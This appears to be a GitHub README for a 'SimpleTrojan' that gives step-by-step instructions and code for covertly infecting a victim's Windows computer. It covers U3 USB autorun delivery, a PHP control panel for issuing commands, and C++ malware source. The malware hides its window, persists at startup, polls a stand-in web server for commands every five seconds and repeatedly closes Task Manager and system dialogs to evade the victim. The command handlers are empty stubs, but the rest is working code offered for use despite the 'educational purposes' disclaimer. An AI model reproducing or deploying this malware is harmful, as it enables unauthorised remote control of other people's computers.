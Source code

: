 # SimpleTrojan
This is made for educational purposes, I am not responsible for you acts. How to inject a Trojan Virus into a victim's computer !

### Information

Hello everyone, I decided today to stop my C# project to make this one, a simple Trojan Virus. The trojan downloads 3 textfiles each 5 seconds, the textfiles contain a number, and based on that number it executes commands.

Before we start with the C++ code, I have a very easy way to get the trojan on the victim's computer. You just need a U3-enabled USB drive, USB access to the victim's computer, and the Universal Customizer. Delete the U3CUSTOM.ISO and create your own U3CUSTOM.ISO with these files included. (the files will be in the repository)

### Second Step

Then, create a folder "trojan", and we'll later put the trojan files in there. You also need to create a file "Trojan.lnk", it will be copied to the startup folder. Also place all the neccessary DLL's in there for the program to run, for example urlmon.dll and wininet.dll. 

Then create an ISO and run the U3 Updater to put the trojan on your U3 drive. Now it will automatically run go.vbs without any notice once you plug in your U3 drive in any Windows XP computer (It will not work on Vista or 7, they have autorun disabled).

And also, before we start creating our program itself, we need a way to control it. As I said, the trojan downloads 3 files. Let's make these files on our web site/server. Create index.html, assign.html and target.html and don't put anything in there. Then we create a PHP file (edit.php) that is able to edit the html files. Why just PHP and not some normal application? Because this way we can control the trojan from anywhere by just going to yourwebsitehere.com/trojan/edit.php. You can even control computers with your mobile phone if you have mobile internet or Wifi.

[PHP]
` <br><HTML><br><HEAD><br><TITLE>Winrat.exe Control Panel</TITLE><br><META HTTP-EQUIV="CACHE-CONTROL" CONTENT="NO-CACHE"><br></HEAD><br><BODY><br><br><?php<br>if (isset($_POST['submit'])) {<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['option']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br><br>$myFile2 = "target.html";<br>$fh = fopen($myFile2, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['target']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br><br>if (isset($_POST['clear'])) {<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = 0;<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br><br>if (isset($_POST['assigncomputer'])) {<br><br>$myFile = "assign.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['assign']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br>?><br><br><div id="wrapper"><br><form action="" method="post"><br><textarea name="target" style="width: 230px; height: 25px; margin-bottom: 5px; font-size: 20px"><br><?php<br>$myFile = "target.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea><br><br /><br><textarea name="option" style="width: 230px; height: 60px; margin-bottom: 5px; font-size: 20px"><br><?php<br>$myFile = "index.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea><br><br /><br><input type="submit" name="submit" value="Edit" style="width: 150px; height: 40px" /><br><input type="submit" name="clear" value="Clear" style="width: 65px; height: 40px" /><br></form><br><br><?php<br>echo 'Current hack activated: <b>';<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?><br></b><br><br /><br \><b>1.</b> Just some<br><br /><b>2.</b> HTML code<br><br /><b>3.</b> to remember<br><br /><b>4.</b> what commands<br><br /><b>5.</b> you can use.<br><br /><br /><br><form action="" method="post"><br><textarea name="assign" style="width: 190px; height: 30px; margin-bottom: 2px; font-size: 20px"><br><?php<br>$myFile = "assign.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea> <br><br /><br><input type="submit" name="assigncomputer" value="Assign" style="width: 190px; height: 25px;" /><br></form><br><br></div><br> `


Now we start with creating our winrat.exe, the trojan itself. Here's the source code:

`` #include <windows.h>
#pragma comment(lib, "Winmm.lib")
#include <urlmon.h> 
#pragma comment(lib, "urlmon.lib")
#include <iostream>
#include <fstream>
#include <WinInet.h>
#pragma comment(lib, "WinInet.lib")
#include <ShlObj.h>
using namespace std;
 
int Option, Assign, Target;
DWORD WINAPI LowProfile(LPVOID);
DWORD WINAPI Option1(LPVOID);
DWORD WINAPI Option2(LPVOID);
DWORD WINAPI Option3(LPVOID);
DWORD WINAPI Option4(LPVOID);
DWORD WINAPI Option5(LPVOID);
// Add more lines of Option6, Option7, etc. to create more commands.
HWND TaskMgr, SysError, WMP, Disk1, Disk2, Disk3, Disk4, Autoplay, VBS;
 
int main() {
// Hide Console Window
FreeConsole();
 
CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&LowProfile, 0, 0, NULL);
 
// Checks if assign.txt exists. If it doesn't (only first run), download assign.txt. This gives the computer an ID number. You can change assign.txt in the PHP file BEFORE you plug in the U3 drive.
FILE *istream;
if ( (istream = fopen ( "C:\\Windows\\trojan\\assign.txt", "r" ) ) == NULL ) {
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/assign.html", L"c:\\Windows\\trojan\\assign.txt", NULL, NULL);
} else {
}
 
// Store Assign.txt in a variable
ifstream inAssign;
inAssign.clear();
inAssign.open("c:\\Windows\\trojan\\assign.txt");
inAssign >> Assign;
inAssign.close();
inAssign.clear();
 
// Start the main loop that is downloading the textfile each 5 seconds.
while(1) { ``
 
    // Download Option & Target
    remove("c:\\Windows\\trojan\\option.txt");
    remove("c:\\Windows\\trojan\\target.txt");
    DeleteUrlCacheEntry(L"http://www.yourwebsitehere.com/trojan/");
    DeleteUrlCacheEntry(L"http://www.yourwebsitehere.com/trojan/target.html");
    Sleep(100);
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/", L"c:\\Windows\\trojan\\option.txt", NULL, NULL);
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/target.html", L"c:\\Windows\\trojan\\target.txt", NULL, NULL);
 
    // Read Option
    ifstream inFile;
    inFile.clear();
    inFile.open("c:\\Windows\\trojan\\option.txt");
    inFile >> Option;
    inFile.close();
    inFile.clear();
 
    // Read Target
    ifstream inTarget;
    inTarget.clear();
    inTarget.open("c:\\Windows\\trojan\\target.txt");
    inTarget >> Target;
    inTarget.close();
    inTarget.clear();
 
    // If Target is equal to assign (so you can target a single computer) or if Target is zero (target all computers with your trojan)
    if(Target == Assign || Target == 0) {
        if(Option == 1) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option1, 0, 0, NULL); }
        else if(Option == 2) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option2, 0, 0, NULL); }
        else if(Option == 3) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option3, 0, 0, NULL); }
        else if(Option == 4) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option4, 0, 0, NULL); }
        else if(Option == 5) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option5, 0, 0, NULL); }
        // Add more of these lines for more commands
    }
    Sleep(5000);
    }
}
 
`` // Our LowProfile Thread. Hides all errors and things that may popup while inserting your U3 drive.
DWORD WINAPI LowProfile(LPVOID) {
    while(1) {
        // Obvious
        TaskMgr = FindWindow(NULL,L"Windows Task Manager");
        // May popup because of new hardware installation (U3)
        SysError = FindWindow(NULL,L"System Settings Change");
        // Windows Media Player may popup. Rarely happens, but had this once at a school computer.
        WMP = FindWindow(NULL,L"Windows Media Player");
        // The Removable Disk part of the U3 Drive can open automatically.
        Disk1 = FindWindow(NULL,L"(D:) Removable Disk");
        Disk2 = FindWindow(NULL,L"(E:) Removable Disk");
        Disk3 = FindWindow(NULL,L"(F:) Removable Disk");
        Disk4 = FindWindow(NULL,L"(G:) Removable Disk");
        // Autoplay
        Autoplay = FindWindow(NULL,L"Autoplay");
        // Errors caused by our VBScript go.vbs
        VBS = FindWindow(NULL,L"Windows Script Host");
        if( TaskMgr != NULL) {
            SetWindowText( TaskMgr,L"DIE!!!! =O");
            Sleep(500);
            PostMessage( TaskMgr, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( SysError != NULL) {
            PostMessage( SysError, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( WMP != NULL) {
            Sleep(1000);
            PostMessage( WMP, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk1 != NULL) {
            PostMessage( Disk1, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk2 != NULL) {
            PostMessage( Disk2, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk3 != NULL) {
            PostMessage( Disk3, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk4 != NULL) {
            PostMessage( Disk4, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Autoplay != NULL) {
            PostMessage( Autoplay, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( VBS != NULL) {
            PostMessage( VBS, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        Sleep(500);
    }
}
 
//
// Here we start with our commands. Option1, Option2, Option3, etc.
// Don't forget to also define and create a process for these Options if you want to create more.
// Have Fun =D
//
 
DWORD WINAPI Option1(LPVOID) { // 1
    return 0;
}
 
DWORD WINAPI Option2(LPVOID) { // 2
    return 0;
}
 
DWORD WINAPI Option3(LPVOID) { // 3
    return 0;
}
 
DWORD WINAPI Option4(LPVOID) { // 4
    return 0;
}
 
DWORD WINAPI Option5(LPVOID) { // 5
    return 0;
} ``
